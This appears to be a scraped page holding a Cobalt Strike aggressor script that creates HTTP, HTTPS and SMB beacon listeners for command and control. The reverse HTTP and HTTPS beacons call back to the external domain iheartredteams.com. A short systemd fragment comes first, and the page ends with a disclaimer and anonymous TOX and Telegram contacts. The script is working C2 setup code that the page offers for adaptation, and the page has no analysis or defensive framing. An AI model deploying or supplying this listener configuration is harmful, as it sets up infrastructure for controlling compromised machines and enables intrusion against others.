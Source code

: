 ```
[Install]
WantedBy=multi-user.target
```

The scenario of a headless aggressor

This should be updated to reflect your environment.

This example of an aggressor script is used to launch an HTTP, HTTPS, and SMB listener with all the necessary parameters

HTTP Listener

- Name
- Listening host
- althost

HTTPS Listener

- Name
- Listening host
- althost

SMB Listener

```
println("
###################################################################
 CobaltStrike Aggressor Script         
 Author:      Joe Vest
 Description: Headless script to create listeners
###################################################################");

println('Loading listener_service.cna...');

on ready{
    println('listener_service.cna: Creating HTTP Listener...');
    listener_create_ext("HTTP", "windows/beacon_http/reverse_http", %(host => "iheartredteams.com", port => 80, beacons => "iheartredteams.com", althost => "iheartredteams.com", bindto => 80));

    println('listener_service.cna: Creating HTTPS Listener...');
    listener_create_ext("HTTPS", "windows/beacon_https/reverse_https", %(host => "iheartredteams.com", port => 443, beacons => "iheartredteams.com", althost => "iheartredteams.com", bindto => 443));

    println('listener_service.cna: Creating SMB Listener...');
    listener_create_ext("SMB", "windows/beacon_bind_pipe", %(port => "mojo.5887.8051.34782273429370473##"));
    sleep(10000);
}
```

### THE NOTE
This article is for informational purposes only. We do not encourage you to commit any hacking. Everything you do is your responsibility.

TOX : 340EF1DCEEC5B395B9B45963F945C00238ADDEAC87C117F64F46206911474C61981D96420B72 Telegram : @DevSecAS
